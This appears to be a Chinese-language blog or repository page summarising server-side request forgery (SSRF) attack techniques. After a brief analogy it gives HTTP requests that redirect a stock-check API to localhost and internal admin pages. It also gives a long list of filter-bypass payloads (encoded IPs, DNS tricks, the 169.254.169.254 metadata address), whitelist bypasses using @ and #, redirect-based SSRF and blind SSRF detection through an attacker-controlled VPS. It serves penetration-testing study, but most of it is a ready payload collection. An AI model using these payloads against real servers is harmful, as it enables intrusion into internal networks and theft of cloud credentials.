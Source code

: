 # SSRF攻击方式汇总

## 原理

涉及到SSRF的地方往往与公司的整个内网有关，因此涉及到SSRF的漏洞往往都有还不错的危害评级。

如果把存在SSRF攻击面的机器比作公司大楼保安.

第一种SSRF就好比，攻击者穿着外卖员的衣服跟保安说要进去送个外卖，然后保安相信了，这个时候攻击者就可以在公司大楼内部到处闲逛，这种就属于危害级别最高的SSRF；

第二种SSRF是公司给保安交代了明确规定外来人员不准进入公司大楼，这个时候外卖员跟保安说去跟我带个信，说一声某人外卖到了，然后保安问了说有就是这个人确实点了外卖，说没有就说明这个人没有点外卖或者说没有这个人；

第三种SSRF就更难了，保安收到了公司消息说是不准外来人员进入大楼，那外卖员让保安带个信，问这个人在不在，在就下来拿外卖，然后又多问了一嘴，问从哪里下来的，大概要多久才能到这里，保安觉得没啥大不了问了就消息一并告诉他了。

SSRF的全称是服务器端请求伪造（Server-side request forgery），通常情况下他的起因是公司的某些服务器因为需要长期和外界网络进行信息交互，对外界的某些请求需要在公司内部其他服务器上进行查询，同时因为该机器需要保持与外界的交流，所以该机器对外界的消息传递是不得不接受的，而因为某些配置或者某些精巧的绕过手法使得攻击者的意图隐藏在了看似正常的消息传递环节里。而其他服务器在进行查询时返回了攻击者的期望内容，因此就产生了SSRF攻击。

## SSRF攻击服务器本机

在某些业务情况下，用户发起请求时服务器需要通过其内的api接口对信息进行访问，该接口由于其可以对输入url进行解析请求,并对请求结果返回，因此可以进行SSRF攻击，如下：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

将 api 处内容换位本机地址：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

如果服务器在对localhost内容进行请求，则顺利构成SSRF攻击。

## SSRF内网漫游

与上图一样，如果将请求的内容换成如下：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.1.1/admin
```

如果将上述内容 localhost 改为内网地址，在 burp 的intruder模块对内网地址进行爆破，对存活主机进行目录爆破，即可实现内网漫游。

## 黑名单绕过

上述两种SSRF可以说是非常理想的场景了，然而事实是，在如今的实际业务场景中几乎不会出现如此理想的攻击环境，往往存在各种的waf、行为感知、黑名单、百名单等进行攻击阻断

那么当127.0.0.1被禁止 了该如何处理？

以下都是可以尝试的替换方案：

```http
# Localhost 绕过
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://0
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR 绕过
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# 点号绕过
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# 十进制 绕过
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# 八进制 绕过
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# 十六进制绕过
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# 也可以尝试混合不同的绕过方式，可以使用如下网站借助完成：
# https://www.silisoftware.com/tools/ipconverter.php

# 比较少见的绕过方式
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS解析绕过
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```

## 白名单绕过

白名单的主要绕过方式来自于各设备的规律规则没有对URL的规范贯彻，主要就是 `@` 和 `#` 这两个符号：如下，其中一个 `url` 是白名单要求的 `url` ，另一个 `url` 是我们需要请求的 `url` ，这俩 `url` 随便顺序组合（最好都尝试），然后中间用 `@`、`#`、`@#`、`#@` 进行链接，甚至对各个符号进行一次编码、二次编码在进行拼接，甚至在`@#`和`#@`这种情况下对其中一个进行一次、二次编码之后再进行拼接。对，白名单就是这样进行绕过。

```txt
https://URL_1@URL_2
```

## 重定向里的SSRF

通常出现在这样的业务场景里，利用方式如下：

get方式：`/product/nextProduct?currentProductId=6&path=http://192.168.1.1/admin`

post方式：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.1.1/admin
```

## Blind SSRF

Blind SSRF的发现方式通常都是将自己vps的地址放在可能存在攻击点的地方，然后监听vps相应端口，等待攻击完成后看是否有收到像一个请求。从而判定是否存在Blind SSRF。

## Blind SSRF打出危害

由于Blind SSRF没有回显，因此相关的可以利用的价值极低，不过最近我发现了一个技术叫shellshock攻击的技术可以通过Blind SSRF拿出数据，还在研究，研究透彻了会发出。
